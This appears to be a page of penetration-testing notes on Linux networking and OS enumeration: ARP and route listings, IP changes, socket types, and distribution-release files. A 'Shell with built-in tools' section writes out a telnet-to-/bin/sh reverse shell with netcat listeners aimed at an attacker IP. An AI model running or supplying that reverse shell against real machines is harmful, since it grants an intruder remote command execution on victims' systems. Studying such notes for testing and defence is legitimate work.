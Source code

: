 ### Cached IP and Mac Information
```
arp -e
route
/sbin/route -nee
```

### Change IP
```
ifconfig eth0 192.168.1.115
ifconfig eth0 192.168.1.115 netmask 255.255.255.0 broadcast 192.168.1.255
```

### Shell with built-in tools
```
nc -lvp 4444### Attacker. Input (Commands)
nc -lvp 4445### Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445### On the targets system. Use the attackers IP!
```
https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

### DHCP
Check `DHCP` page in `protocols` dir.

### DNS
Check `DNS` page in `protocols` dir.

### AF_UNIX
Used to communicate between processes on the same machine

### AF_INET and AF_INET6
Used for processes to communicate over a network connection.

### Interact with AF_UNIX Socket
```
nc -U /run/snapd.socket
GET / HTTP/1.1
Host: 127.0.0.1

```

### Tools
- Ship: https://null-byte.wonderhowto.com/how-to/linux-basics-for-aspiring-hacker-using-ship-for-quick-handy-ip-address-information-0181593/

## OS Information

### Distribution
```
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release  ### Debian based
cat /etc/redhat-release   ### Redhat based
```
